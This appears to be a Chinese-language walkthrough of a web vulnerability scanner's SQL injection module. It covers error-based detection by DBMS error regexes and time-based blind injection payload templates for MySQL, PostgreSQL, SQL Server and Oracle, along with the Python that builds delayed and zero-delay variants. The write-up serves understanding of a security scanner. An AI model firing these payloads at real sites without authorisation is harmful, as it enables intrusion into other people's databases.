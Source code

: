 然后将payload 写到参数里请求 使用 `Get_sql_errors` 遍历判断数据库类型  

里面都是类似这种的 `errors.append(('System\.Data\.OleDb\.OleDbException', DBMS.MSSQL))`  


然后再用正则匹配下报错信息 `sensitive_page_error_message_check`  
匹配上了的话就输出结果


###### sqli_time 时间注入

padyload模板  
```python
num = random_num(4)
sql_times = {
    "MySQL": (
        " AND SLEEP({})".format(self.sleep_str),
        " AND SLEEP({})--+".format(self.sleep_str),
        "' AND SLEEP({})".format(self.sleep_str),
        "' AND SLEEP({})--+".format(self.sleep_str),
        "' AND SLEEP({}) AND '{}'='{}".format(self.sleep_str, num, num),
        '''" AND SLEEP({}) AND "{}"="{}'''.format(self.sleep_str, num, num)),
    "Postgresql": (
        "AND {}=(SELECT {} FROM PG_SLEEP({}))".format(num, num, self.sleep_str),
        "AND {}=(SELECT {} FROM PG_SLEEP({}))--+".format(num, num, self.sleep_str),
    ),
    "Microsoft SQL Server or Sybase": (
        " waitfor delay '0:0:{}'--+".format(self.sleep_str),
        "' waitfor delay '0:0:{}'--+".format(self.sleep_str),
        '''" waitfor delay '0:0:{}'--+'''.format(self.sleep_str)),
    "Oracle": (
        " and 1= dbms_pipe.receive_message('RDS', {})--+".format(self.sleep_str),
        "' and 1= dbms_pipe.receive_message('RDS', {})--+".format(self.sleep_str),
        '''"  and 1= dbms_pipe.receive_message('RDS', {})--+'''.format(self.sleep_str),
        "AND 3437=DBMS_PIPE.RECEIVE_MESSAGE(CHR(100)||CHR(119)||CHR(112)||CHR(71),{})".format(self.sleep_str),
        "AND 3437=DBMS_PIPE.RECEIVE_MESSAGE(CHR(100)||CHR(119)||CHR(112)||CHR(71),{})--+".format(
            self.sleep_str),
    )
}
```
sleep time 是5s  

```python
    sleep_time = 5
    sleep_str = "[SLEEP_TIME]"
```

生成payload  
这里是把 `[SLEEP_TIME]` 换成 sleep_time 即5s  
生成了两个一个是5s的一个是0s的  
```python
def generatePayloads(self, payloadTemplate, origin_dict):
    """
    根据payload模板生成时间盲注所需要的不同响应时间的payload
    @param payloadTemplate:
    @param origin_dict:
    @return:
    """
    new_dict = origin_dict.copy()
    zero_dict = origin_dict.copy()
    for k, v in new_dict.items():
        new_dict[k] = v + payloadTemplate.replace(self.sleep_str, str(self.sleep_time))
        # 如果取 2*sleep_time 可能会更准确
        zero_dict[k] = v + payloadTemplate.replace(self.sleep_str, "0")

    return new_dict, zero_dict
```
